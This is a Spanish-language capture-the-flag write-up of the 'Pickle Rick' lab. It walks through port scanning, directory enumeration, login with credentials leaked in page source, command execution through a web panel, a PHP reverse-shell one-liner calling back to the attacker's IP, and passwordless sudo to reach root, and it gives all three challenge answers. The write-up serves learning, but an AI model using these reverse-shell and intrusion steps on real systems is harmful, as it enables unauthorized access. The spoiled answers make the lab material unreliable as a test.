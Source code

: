 
![](https://i.imgur.com/o9pyhyU.jpg)  

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

## Preguntas a responder: 

-----

What is the first ingredient that Rick needs?  


What is the second ingredient in Rick’s potion?  


What is the last and final ingredient?  

-----

Empezamos con un mapeo de todos los puertos por nmap:

```bash
❯ nmap -p- --min-rate 5000 -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:34 CEST
Nmap scan report for 10.10.142.14
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.16 seconds
```

Ahora hacemos un escaneo mas completo a los puertos encontrados:

```bash
❯ nmap -p22,80 -sCV -Pn 10.10.142.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 11:36 CEST
Nmap scan report for 10.10.142.14
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9:f6:10:24:1d:cf:07:a4:3c:1f:e3:06:7f:f4:64:8b (RSA)
|   256 b0:9d:20:7f:58:4f:ce:b5:cc:e0:8f:e2:60:05:65:3a (ECDSA)
|_  256 3d:53:81:7c:09:64:65:82:af:6a:1d:16:8c:52:02:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

con todo esto vamos a empezar por el servicio http y la web que aloja en el apache.

en el codigo fuente de la web vemos este body:


``` html
<body> 
	<div class="container"> 
	<div class="jumbotron"></div> 
		<h1>Help Morty!</h1></br> 
		<p>Listen Morty... I need your help, I've turned myself into a pickle   again and this time I can't change back!</p>
		</br> <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br> 
		
		</div> 
		
		<!-- Note to self, remember username! Username: R1ckRul3s --> 

</body>
```

nos guardamos el username: R1ckRul3s

Intenté hacer un ataque de fuerza bruta con hydra al ssh pero el servicio no me dejaba por lo que continué centrándome en la web.

Buscamos el archivo robots.txt y enontramos esto:

**Wubbalubbadubdub**

hacemos una enumeración de directorios con gobuster, esta vez añadimos la flag -x para encontrar directorios con extensiones de archivo como php:

```bash
❯ gobuster dir -u http://10.10.142.14 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,json,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.142.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              xml,php,html,txt,json
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.142.14/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
Progress: 10490 / 1323360 (0.79%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 10496 / 1323360 (0.79%)
===============================================================
Finished
===============================================================
```

accedemos a la pagina login.php, me mostro una web de logueo, probé loguearme con el usuario R1ckRul3s y la pass: Wubbalubbadubdub y entre a este panel:

![Pasted image 20240514115345.png](/img/PanelRick.png)

aqui podemos introducir comandos a una shell, hice un -ls -la y mostró varios archivos:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
aquí podemos obtener el primer ingrediente, con un **cat Sup3rS3cretPickl3Ingred.txt** no nos deja obtener el resultado así que usé el comando less y obtenemos el primer ingrediente:
```bash
less Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```
 la primera pregunta queda respondida : 
 
 **What is the first ingredient that Rick needs?**
 
 Respuesta: **mr. meeseek hair**

después de esto intento hacer una reverse shell para un manejo mas cómodo:
tras unas pruebas consigo que me funcione con este one-liner rev: 

**php -r '$sock=fsockopen("10.9.251.231",1234);exec("/bin/bash <&3 >&3 2>&3");'**

y obtengo acceso:
```
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.142.14] 33970
whoami
www-data

```

hago un tratamiento de la tty y empiezo con una pequeña enumeración para ver que permisos de sudo tenemos y sorpresa:

```bash
www-data@ip-10-10-142-14:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-142-14:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-142-14:
    (ALL) NOPASSWD: ALL
```
tenemos permisos para todo.

vemos el archivo clue.txt que se muestra en el mismo directorio que el primer ingrediente y nos dice que sigamos buscando por el sistema.

En la carpeta de rick encontramos el segundo ingrediente:
```bash
www-data@ip-10-10-142-14:/home$ cd rick
www-data@ip-10-10-142-14:/home/rick$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019  .
drwxr-xr-x 4 root root 4096 Feb 10  2019  ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 'second ingredients'
www-data@ip-10-10-142-14:/home/rick$ cat second\ ingredients 
1 jerry tear
www-data@ip-10-10-142-14:/home/rick$ 
```

**What is the second ingredient in Rick’s potion?**
Respuesta: **1 jerry tear**

ahora intenté entrar al directorio de root pero no me dejaba así que probé varios métodos 
```bash
www-data@ip-10-10-142-14:/$ cd root
bash: cd: root: Permission denied
www-data@ip-10-10-142-14:/$ sudo cd root
sudo: cd: command not found
www-data@ip-10-10-142-14:/$ ls root
ls: cannot open directory 'root': Permission denied
www-data@ip-10-10-142-14:/$ sudo ls root
3rd.txt  snap
www-data@ip-10-10-142-14:/$ 
www-data@ip-10-10-142-14:/$ sudo less root/3rd.txt
# y pude visualizar el tercer ingrediente

3rd ingredients: fleeb juice
```

**What is the last and final ingredient?**
Respuesta: **fleeb juice**

Con esto concluimos la maquina.